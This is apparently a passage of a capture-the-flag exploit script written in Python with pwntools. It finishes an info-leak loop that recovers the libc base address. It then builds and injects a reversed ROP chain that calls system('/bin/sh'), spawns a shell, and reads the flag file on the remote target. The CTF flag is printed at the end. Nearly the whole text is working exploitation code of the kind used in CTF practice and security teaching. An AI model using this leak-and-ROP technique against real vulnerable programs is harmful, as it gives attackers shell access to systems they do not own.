 ```python
    # read the byte, then send it back lol
    mem[idx] = u8(recvd)
    sys.stdout.buffer.write(b'.')
    sys.stdout.flush()
    if idx == 0x27e:
        # we are writing the ip explicitly,
        # so we don't need to send the same byte three times
        io.send(b'\x03')
    else:
        real_send(recvd)
    idx = (idx + 1) & 0xffff
success("info leak finished!")

# now first loop ends, we get to second loop
stop_reading()

libc_leak = mem[0x290:0x298]
libc.address = u64(libc_leak) - 0x2a3b8

info(f'{hex(libc.address)=}')


# ROP chain starts at mem[0x290]

rop = ROP(libc)
rop.raw(rop.find_gadget(['ret']))
rop.system(next(libc.search(b'/bin/sh\x00')))

print(rop.dump())

# ROP starts at 0x290
payload = rop.chain().ljust(0x2be - 0x290 + 1, b'\x00')[::-1]

info("writing ROP chain using our new write loop")
for c in payload:
    real_send(p8(c))
success("ROP chain injected!")

info("stopping program")
# we should be at the highest byte of rbp. we can clear that to zero with stop_reading
# not like we need rbp or anything
stop_reading()


success("shell spawned")
if args.REMOTE:
    info("for remote, we're only using the shell to print the flag")
    io.clean()
    io.sendline(b"cat flag")
    success("Found the flag: " + io.recvline().decode())
else:
    io.interactive()

# flag: dam{im_r3411y_g1ad_i_didnt_g0_w1th_ma1bo1g3_f0r_th1s_cha11}
```
